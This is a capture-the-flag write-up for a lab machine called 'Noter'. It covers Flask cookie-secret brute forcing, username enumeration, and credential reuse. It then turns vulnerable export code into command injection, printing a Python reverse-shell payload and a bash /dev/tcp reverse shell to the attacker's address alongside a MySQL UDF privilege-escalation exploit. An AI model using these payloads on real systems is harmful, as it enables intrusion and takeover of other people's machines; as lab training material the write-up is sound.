 # Noter

Gaining Access

As usual, we start with an Nmap scan:

<figure><img src="../../../.gitbook/assets/image (58) (2) (1).png" alt=""><figcaption></figcaption></figure>

Port 5000 was a HTTP port that was running some notetaking application.&#x20;

### JWT Token Brute Force

The web application allowed us to register or login:

<figure><img src="../../../.gitbook/assets/image (33) (2) (1).png" alt=""><figcaption></figcaption></figure>

I created a user and logged in. When I proxied the traffic through Burp, we can see that there is a JWT Session Cookie present:

<figure><img src="../../../.gitbook/assets/image (65) (2).png" alt=""><figcaption></figcaption></figure>

When decrypted, we can see that it contains some data:

<figure><img src="../../../.gitbook/assets/image (69) (2).png" alt=""><figcaption></figcaption></figure>

Generally, from other machine experiences, Flask uses JWT cookies to differentiate sessions. So I tried to brute force the secret of this cookie with `flask-unsign` and `rockyou.txt`.&#x20;

<figure><img src="../../../.gitbook/assets/image (16) (4) (1).png" alt=""><figcaption></figcaption></figure>

With the secret found, we can create our own cookies and make whatever username we want. However, we still need to find a username that works.

### Username Enumeration

I noticed that the website has different responses when we key in an invalid username and a valid one,

I created the `test` user and tried a wrong password, and got the `Invalid Login` warning:

<figure><img src="../../../.gitbook/assets/image (10) (1) (1) (2).png" alt=""><figcaption></figcaption></figure>

If we did this a user that does not exist, it would tell us `Invalid Credentials`.&#x20;

<figure><img src="../../../.gitbook/assets/image (57) (1) (2).png" alt=""><figcaption></figcaption></figure>

With this boolean condition, we can brute force all possible users within the machine. I used Burp Intruder to do so:

<figure><img src="../../../.gitbook/assets/image (49) (2) (1).png" alt=""><figcaption></figcaption></figure>

Then I filtered the results using the `Invalid Login` string.

<figure><img src="../../../.gitbook/assets/image (15) (1) (5) (1).png" alt=""><figcaption></figcaption></figure>

So `blue` is the user on this machine. We can use the secret we found earlier to create a new cokie and sign in by replacing the cookie:

<figure><img src="../../../.gitbook/assets/image (6) (5) (3).png" alt=""><figcaption></figcaption></figure>

### FTP Credentials

With access to this new user, we can view more hidden notes:

<figure><img src="../../../.gitbook/assets/image (43) (3) (1).png" alt=""><figcaption></figcaption></figure>

The first one was the most interesting as it revealed some FTP Credentials:

<figure><img src="../../../.gitbook/assets/image (29) (1) (3).png" alt=""><figcaption></figcaption></figure>

Logging into FTP, we can gain access to a password policy PDF.

<figure><img src="../../../.gitbook/assets/image (3) (1) (5) (1).png" alt=""><figcaption></figcaption></figure>

Reading the Password Policy, we can see that the passwords are all templated:

<figure><img src="../../../.gitbook/assets/image (11) (2) (3).png" alt=""><figcaption></figcaption></figure>

With this hint, we can login as `ftp_admin` using `ftp_admin@Noter!`.&#x20;

### Source Code Review

WIth access to the new FTP account, we can find two website source code backups made at different times:

<figure><img src="../../../.gitbook/assets/image (40) (2) (1).png" alt=""><figcaption></figcaption></figure>

Additionally, because we are the `blue` user, we can view the VIP dashboard which allows us to **import and export notes**.&#x20;

<figure><img src="../../../.gitbook/assets/image (25) (1) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (20) (5) (1).png" alt=""><figcaption></figcaption></figure>

When checking the Export Notes portion of code, we see that it **runs a command using a shell.**

```python
# Export remote
@app.route('/export_note_remote', methods=['POST'])
@is_logged_in
def export_note_remote():
    if check_VIP(session['username']):
        try:
            url = request.form['url']

            status, error = parse_url(url)

            if (status is True) and (error is None):
                try:
                    r = pyrequest.get(url,allow_redirects=True)
                    rand_int = random.randint(1,10000)
                    command = f"node misc/md-to-pdf.js  $'{r.text.strip()}' {rand_int}"
                    subprocess.run(command, shell=True, executable="/bin/bash")

                    if os.path.isfile(attachment_dir + f'{str(rand_int)}.pdf'):

                        return send_file(attachment_dir + f'{str(rand_int)}.pdf', as_attachment=True)

                    else:
                        return render_template('export_note.html', error="Error occured while exporting the !")

                except Exception as e:
                    return render_template('export_note.html', error="Error occured!")


            else:
                return render_template('export_note.html', error=f"Error occured while exporting ! ({error})")
            
        except Exception as e:
            return render_template('export_note.html', error=f"Error occured while exporting ! ({e})")

    else:
        abort(403)
```

In specific, it runs `md-to-pdf.js`, which might be an RCE vector here. So, we can create a malicious .md file that has commands within it to allow for code injection.&#x20;

<figure><img src="../../../.gitbook/assets/image (68) (2).png" alt=""><figcaption></figcaption></figure>

For this case, we would need to have something to escape the first quote and command, hence we start the payload with `';`. Afterwards, we need to inject some Python code since this is a Python based website. I used a basic Python3 reverse shell.

Then, we need to end it with `#'` to close the quote and end the command:

```
';python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.12",21));
os.dup2( s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")' # '
```

We can then upload this file and gain a reverse shell as the `svc` user on a listening port.

### SQL Creds

Additionally, when checking the two backups, I used `diff` to view the differences between each file. I found that some MySQL Credentials were removed from the more recent backup:

<figure><img src="../../../.gitbook/assets/image (32) (1) (1) (2).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

With the MySQL Creds, we can login as root:

<figure><img src="../../../.gitbook/assets/image (60) (2).png" alt=""><figcaption></figcaption></figure>

Because MySQL was running as root on the machine, we could do the `raptor_udf.so` exploit. This exploit basically uses a shared library that runs commands from the SQL plugins library. We can add a custom command that would allow us to gain RCE as the root user.

There are more detailed instructions here:

{% embed url="https://www.exploit-db.com/raw/1518" %}

<figure><img src="../../../.gitbook/assets/image (47) (2) (1).png" alt=""><figcaption></figcaption></figure>

Afterwards, we can just use the `do_system('bash -c "bash -i >& /dev/tcp/10.10.16.12/21 0>&1"');` function we defined to gain a reverse shell on the machine.&#x20;

<figure><img src="../../../.gitbook/assets/image (67) (2).png" alt=""><figcaption></figcaption></figure>
